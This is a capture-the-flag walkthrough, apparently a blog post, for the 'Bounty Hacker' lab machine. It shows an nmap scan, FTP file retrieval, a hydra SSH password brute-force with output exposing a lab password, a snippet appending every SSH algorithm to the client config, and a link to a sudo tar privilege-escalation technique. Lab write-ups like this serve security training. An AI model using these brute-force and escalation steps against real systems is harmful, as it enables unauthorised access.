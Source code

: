 ```yaml
---

title: Walkthrough - Bounty Hacker - Linux/Tar/PrivESC/Security
published: true
---
```


You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!

![](/assets/cowboybebop01.jpg)

You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future! 

* * *

## Find open ports on the machine

- ``sudo nmap -Pn -sS -p- -T4 10.10.208.214 -vvv``

```shell

```

* * *

## Who wrote the task list? 

- connect to ftp and download ``locks.txt`` and ``tasks.txt``

* * *

## What service can you bruteforce with the text file found?

So I was having issues brute forcing the SSH with hydra due to a ``kex error : no match for method server host key algo: server [ssh-rsa,rsa-sha2-512,rsa-sha2-256,ecdsa-sha2-nistp256,ssh-ed25519], client [ssh-dss]`` The following code block will fix all login negotaiation errors.

```shell
{
echo -n 'Ciphers '
ssh -Q cipher | tr '\n' ',' | sed -e 's/,$//'; echo

echo -n 'MACs '
ssh -Q mac | tr '\n' ',' | sed -e 's/,$//'; echo

echo -n 'HostKeyAlgorithms '
ssh -Q key | tr '\n' ',' | sed -e 's/,$//'; echo

echo -n 'KexAlgorithms '
ssh -Q kex | tr '\n' ',' | sed -e 's/,$//'; echo

} >> ~/.ssh/config
```

We are now able to run ``hydra -l lin -P locks.txt 10.10.208.214 ssh -t 4`` and get our ssh password.

```shell
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-09 10:32:21
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://10.10.208.214:22/
[22][ssh] host: 10.10.208.214   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-07-09 10:32:30
```

* * *

## user.txt

```shell
lin@bountyhacker:~/Desktop$ ls -las
total 12
4 drwxr-xr-x  2 lin lin 4096 Jun  7  2020 .
4 drwxr-xr-x 19 lin lin 4096 Jun  7  2020 ..
4 -rw-rw-r--  1 lin lin   21 Jun  7  2020 user.txt
lin@bountyhacker:~/Desktop$ pwd
/home/lin/Desktop
lin@bountyhacker:~/Desktop$ cat user.txt 
```

* * *

## root.txt

```shell
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Sorry, try again.
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

Easy PrivESC - [https://gtfobins.github.io/gtfobins/tar/#sudo](https://gtfobins.github.io/gtfobins/tar/#sudo)

* * * 









